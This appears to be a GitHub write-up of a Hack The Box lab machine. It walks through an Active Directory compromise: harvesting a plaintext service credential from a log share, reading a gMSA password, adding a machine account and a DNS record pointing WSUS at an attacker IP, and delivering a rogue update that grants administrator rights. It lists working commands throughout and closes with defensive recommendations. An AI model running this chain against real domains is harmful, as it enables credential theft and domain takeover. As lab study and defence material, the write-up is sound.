

<div align="center">

<!-- HERO -->


<br>


<br>

### 🪵 *When logs talk too much, WSUS becomes a weapon.*

</div>

---

> [!IMPORTANT]
> This is a **GitHub-safe writeup**. Real flags are intentionally redacted. Credentials are shown only as part of the educational attack narrative for an HTB lab environment.

---

## 🧭 Engagement Snapshot

<table>
<tr>
<td width="50%">

### 🎯 Target

| Item | Value |
|---|---|
| Machine | `Logging` |
| IP | `10.129.198.102` |
| Domain | `logging.htb` |
| Hostname | `DC01.logging.htb` |
| Role | Domain Controller + WSUS |
| Primary Theme | ADCS + WSUS abuse |

</td>
<td width="50%">

### 🏁 Outcome

| Milestone | Result |
|---|---|
| Initial Creds | ✅ Valid domain user |
| Looted Secret | ✅ Service credential in logs |
| gMSA Abuse | ✅ `msa_health$` hash recovered |
| WSUS Spoof | ✅ Rogue update path |
| Privilege Escalation | ✅ Local Administrators / DA-equivalent |
| Root Flag | ✅ Captured, redacted |

</td>
</tr>
</table>

---

## 📚 Table of Contents

- [🛰️ 1. Recon: The Domain Controller Emerges](#️-1-recon-the-domain-controller-emerges)
- [🔑 2. First Key: A Valid User](#-2-first-key-a-valid-user)
- [🧾 3. The Loudest Log File in the Room](#-3-the-loudest-log-file-in-the-room)
- [🏛️ 4. ADCS: The UpdateSrv Template](#️-4-adcs-the-updatesrv-template)
- [🧬 5. gMSA Pivot: Becoming msa_health$](#-5-gmsa-pivot-becoming-msa_health)
- [🧨 6. WSUS Spoofing: Turning Updates Into Escalation](#-6-wsus-spoofing-turning-updates-into-escalation)
- [👑 7. Root](#-7-root)
- [🕸️ Attack Graph](#️-attack-graph)
- [🛡️ Defensive Takeaways](#️-defensive-takeaways)
- [🧰 Command Palette](#-command-palette)

---

# 🛰️ 1. Recon: The Domain Controller Emerges

The first scan immediately smelled like Active Directory: Kerberos, LDAP, SMB, LDAPS, Global Catalog, WinRM, and a suspicious IIS service on the WSUS ports.

<div align="center">

| Port | Service | Why It Mattered |
|---:|---|---|
| `53` | DNS | AD-integrated DNS later becomes part of the chain |
| `88` | Kerberos | Domain authentication |
| `389/636` | LDAP/LDAPS | Users, groups, gMSA, ADCS metadata |
| `445` | SMB | Shares and log files |
| `5985` | WinRM | Command execution once creds improved |
| `8530/8531` | WSUS | The final weaponized surface |
| `9389` | AD Web Services | AD management surface |

</div>

```bash
nmap -sC -sV -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389 10.129.198.102
```

```text
DC01.logging.htb
Domain: logging.htb
OS: Windows Server 2019 Build 17763
WSUS-like HTTP surfaces: 8530 / 8531
```

> [!TIP]
> Seeing `8530/8531` on a DC is a huge hint: WSUS is often trusted, poorly segmented, and capable of delivering code through update workflows.

---

# 🔑 2. First Key: A Valid User

The initial valid credential was:

```text
logging.htb\wallace.everette : Welcome2026@
```

Validation:

```bash
nxc smb 10.129.198.102 -u wallace.everette -p 'Welcome2026@'
```

```text
[+] logging.htb\wallace.everette:Welcome2026@
```

The password policy revealed one important operational detail:

```text
Account Lockout Threshold: None
```

That helped with later testing, but spraying was not the winning path.

---

# 🧾 3. The Loudest Log File in the Room

Authenticated SMB enumeration exposed a share named `Logs`.

```bash
nxc smb 10.129.198.102 -u wallace.everette -p 'Welcome2026@' --shares
```

```text
Logs       READ
NETLOGON   READ
SYSVOL     READ
WSUSTemp   READ
```

Inside `Logs`, one file was immediately suspicious:

```text
IdentitySync_Trace_20260219.log
```

And the log did exactly what logs should never do:

```text
BindUser: LOGGING\svc_recovery
BindPass: Em3rg3ncyPa$$2025
Target:   LDAP://HR01.logging.htb:389
```

<div align="center">

### 💥 Impact

`wallace.everette` → readable SMB logs → plaintext service credential → deeper AD access

</div>

> [!WARNING]
> Plaintext credentials in operational logs are often more dangerous than a single vulnerable service. They convert a low-privileged foothold into a domain-wide enumeration primitive.

---

# 🏛️ 4. ADCS: The UpdateSrv Template

ADCS enumeration revealed the CA and a very interesting template:

```bash
certipy-ad find -u 'wallace.everette@logging.htb' -p 'Welcome2026@' -dc-ip 10.129.198.102 -stdout
```

```text
CA Name: logging-DC01-CA
Template: UpdateSrv
  Enrollee Supplies Subject: True
  EKU: Server Authentication
  Requires Manager Approval: False
  Enrollment Rights: LOGGING.HTB\IT
```

<table>
<tr>
<td width="33%" align="center">
<h3>🧾 Enrollee Supplies Subject</h3>
The requester controls the certificate subject/SAN.
</td>
<td width="33%" align="center">
<h3>🌐 Server Authentication</h3>
The cert can represent a TLS server such as WSUS.
</td>
<td width="33%" align="center">
<h3>🚪 IT Only</h3>
Enrollment is restricted, creating the next obstacle.
</td>
</tr>
</table>

The obvious route was: compromise `jaylee.clifton` → enroll in `UpdateSrv` → impersonate WSUS.

But password attempts failed.

So the chain needed a different angle.

---

# 🧬 5. gMSA Pivot: Becoming `msa_health$`

Further LDAP/BloodHound analysis surfaced `msa_health$`, a gMSA tied to WSUS administration.

Using the recovered `svc_recovery` credential, the gMSA secret could be read.

```bash
bloodyAD -d logging.htb -u svc_recovery -p 'Em3rg3ncyPa$$2025' \
  --host dc01.logging.htb --dc-ip 10.129.198.102 \
  get object 'CN=msa_health,CN=Managed Service Accounts,DC=logging,DC=htb' \
  --attr msDS-ManagedPassword
```

Recovered NTLM:

```text
msa_health$ : 603fc24ee01a9409f83c9d1d701485c5
```

WinRM worked with the gMSA hash:

```bash
nxc winrm 10.129.198.102 -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5' -x whoami
```

```text
[+] logging.htb\msa_health$ (Pwn3d!)
```

> [!NOTE]
> This was not yet full admin. It was a powerful service identity with enough WSUS-related access to let the final chain form.

---

# 🧨 6. WSUS Spoofing: Turning Updates Into Escalation

The final chain abused trust around WSUS update delivery.

## 6.1 Poison the WSUS Name

Create an attacker-controlled machine account:

```bash
impacket-addcomputer logging.htb/msa_health$ \
  -hashes ':603fc24ee01a9409f83c9d1d701485c5' \
  -dc-ip 10.129.198.102 \
  -computer-name 'ATTACKER01$' \
  -computer-pass 'SuperP@ss123!'
```

Add an AD-integrated DNS record:

```bash
bloodyAD -d logging.htb -u 'ATTACKER01$' -p 'SuperP@ss123!' \
  --host dc01.logging.htb --dc-ip 10.129.198.102 \
  add dnsRecord wsus.logging.htb 10.10.16.10 \
  --zone logging.htb --dnstype A
```

```text
[+] wsus.logging.htb has been successfully added
```

## 6.2 Request a WSUS Server Certificate

```bash
openssl req -new -newkey rsa:2048 -nodes \
  -keyout /tmp/wsus.key \
  -out /tmp/req.csr \
  -subj '/CN=wsus.logging.htb' \
  -addext 'subjectAltName=DNS:wsus.logging.htb,DNS:wsus'
```

Certificate validation:

```text
subject=CN=wsus.logging.htb
X509v3 Subject Alternative Name:
    DNS:wsus.logging.htb, DNS:wsus
```

## 6.3 Rogue WSUS Delivery

A rogue WSUS server was prepared using `wsuks`, with a malicious update package targeting the update workflow.

The payload goal was simple:

```cmd
net localgroup administrators msa_health$ /add
```

The working delivery path relied on the UpdateMonitor/Windows Update flow and DLL-loading behavior.

## 6.4 Trigger Update Processing

```powershell
ipconfig /flushdns
wuauclt /detectnow
wuauclt /reportnow
usoclient RefreshSettings
usoclient StartScan
```

Eventually, the update chain executed and `msa_health$` was added to Administrators.

---

# 👑 7. Root

Verification:

```powershell
net localgroup administrators
```

```text
Administrator
Toby.Brynleigh
msa_health$
```

Root flag was read from:

```powershell
C:\Users\toby.brynleigh\Desktop\root.txt
```

<div align="center">


</div>

> [!CAUTION]
> Flags are intentionally not published in this GitHub-ready version.

---

# 🕸️ Attack Graph



---

# 🛡️ Defensive Takeaways

| Risk | Recommendation |
|---|---|
| Plaintext credentials in logs | Remove secrets from logs, rotate exposed accounts, centralize secret storage |
| Readable operational shares | Restrict share ACLs; audit access to log repositories |
| gMSA password exposure | Limit `msDS-GroupMSAMembership`; monitor gMSA password reads |
| MachineAccountQuota default | Set `ms-DS-MachineAccountQuota = 0` unless required |
| AD-integrated DNS abuse | Alert on non-admin DNS record creation and suspicious WSUS records |
| ADCS template misuse | Review templates with `EnrolleeSuppliesSubject`, EKUs, and enrollment rights |
| WSUS trust boundary | Enforce TLS, restrict update server access, monitor update source changes |

---

# 🧰 Command Palette

<details>
<summary><b>🔎 Recon Commands</b></summary>

```bash
nmap -sC -sV -Pn -p- 10.129.198.102
ldapsearch -x -H ldap://10.129.198.102 -s base namingcontexts
nxc smb 10.129.198.102 -u '' -p '' --shares
```

</details>

<details>
<summary><b>📁 SMB Looting</b></summary>

```bash
nxc smb 10.129.198.102 -u wallace.everette -p 'Welcome2026@' --shares
smbclient //10.129.198.102/Logs -U 'logging.htb/wallace.everette%Welcome2026@'
```

</details>

<details>
<summary><b>🏛️ ADCS Enumeration</b></summary>

```bash
certipy-ad find -u 'wallace.everette@logging.htb' \
  -p 'Welcome2026@' \
  -dc-ip 10.129.198.102 \
  -stdout
```

</details>

<details>
<summary><b>🧬 gMSA Extraction</b></summary>

```bash
bloodyAD -d logging.htb -u svc_recovery -p 'Em3rg3ncyPa$$2025' \
  --host dc01.logging.htb \
  --dc-ip 10.129.198.102 \
  get object 'CN=msa_health,CN=Managed Service Accounts,DC=logging,DC=htb' \
  --attr msDS-ManagedPassword
```

</details>

<details>
<summary><b>🧨 WSUS Spoofing Skeleton</b></summary>

```bash
impacket-addcomputer logging.htb/msa_health$ \
  -hashes ':<NTLM>' \
  -dc-ip 10.129.198.102 \
  -computer-name 'ATTACKER01$' \
  -computer-pass 'SuperP@ss123!'

bloodyAD -d logging.htb -u 'ATTACKER01$' -p 'SuperP@ss123!' \
  --host dc01.logging.htb \
  --dc-ip 10.129.198.102 \
  add dnsRecord wsus.logging.htb <ATTACKER_IP> \
  --zone logging.htb \
  --dnstype A
```

</details>

---

<div align="center">

## ✨ Final Chain

```text
Valid User → Logs Share → Plaintext Service Cred → gMSA Hash
       → Machine Account + DNS Record → Rogue WSUS
       → Malicious Update → Administrators → Root
```

<br>


</div>
